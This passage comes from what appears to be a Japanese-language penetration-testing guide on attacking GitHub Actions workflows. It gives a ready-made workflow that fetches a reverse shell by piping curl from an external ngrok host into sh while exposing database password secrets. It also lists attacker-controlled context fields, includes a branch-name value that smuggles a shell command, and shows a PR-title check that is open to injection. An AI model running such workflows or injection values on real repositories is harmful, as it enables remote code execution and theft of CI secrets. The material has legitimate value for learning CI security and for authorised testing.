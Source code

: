 By following these steps, you can leverage secrets to obtain a reverse shell and gain remote access to a target system. However, it is important to note that unauthorized access to computer systems is illegal and unethical. Always ensure that you have proper authorization and legal permission before performing any penetration testing activities.
```yaml
name: revshell
on:
workflow_dispatch: # Launch manually
pull_request: #Run it when a PR is created to a branch
branches:
- '**'
push: # Run it when a push is made to a branch
branches:
- '**'
jobs:
create_pull_request:
runs-on: ubuntu-latest
steps:
- name: Get Rev Shell
run: sh -c 'curl https://reverse-shell.sh/2.tcp.ngrok.io:15217 | sh'
env:
secret_myql_pass: ${{secrets.MYSQL_PASSWORD}}
secret_postgress_pass: ${{secrets.POSTGRESS_PASSWORDyaml}}
```
### スクリプトインジェクション <a href="#understanding-the-risk-of-script-injections" id="understanding-the-risk-of-script-injections"></a>

注意すべきなのは、一部の[**githubコンテキスト**](https://docs.github.com/en/actions/reference/context-and-expression-syntax-for-github-actions#github-context)の値が、PRを作成する**ユーザーによって制御**されることです。もしgithubアクションがそのデータを使用して**何かを実行する場合**、それは**任意のコードの実行**につながる可能性があります。これらのコンテキストは通常、`body`、`default_branch`、`email`、`head_ref`、`label`、`message`、`name`、`page_name`、`ref`、および`title`で終わります。例えば（この[**記事**](https://medium.com/tinder/exploiting-github-actions-on-open-source-projects-5d93936d189f)からのリスト）：

* github.event.comment.body
* github.event.issue.body
* github.event.issue.title
* github.head\_ref
* github.pull\_request.\*
* github.\*.\*.authors.name
* github.\*.\*.authors.email

また、ブランチ名やメールアドレスなど、**明らかでない潜在的に信頼できない入力元**もあります。これらは、許可される内容に関して**非常に柔軟**です。例えば、`zzz";echo${IFS}"hello";#`は有効なブランチ名であり、対象リポジトリの攻撃ベクトルとなり得ます。

#### スクリプトインジェクション攻撃の例 <a href="#example-of-a-script-injection-attack" id="example-of-a-script-injection-attack"></a>

スクリプトインジェクション攻撃は、ワークフローのインラインスクリプト内で直接発生することがあります。次の例では、アクションが**プルリクエストのタイトルの妥当性をテストするための式**を使用していますが、同時にスクリプトインジェクションのリスクも追加しています：
```yaml
- name: Check PR title
run: |
title="${{ github.event.pull_request.title }}"
if [[ $title =~ ^octocat ]]; then
echo "PR title starts with 'octocat'"
exit 0
else
echo "PR title did not start with 'octocat'"
exit 1
fi
```
シェルスクリプトが実行される前に、`${{ }}` 内の式が**評価**され、その結果の値で置換されます。これにより、シェルコマンドインジェクションの**脆弱性**が生じる可能性があります。
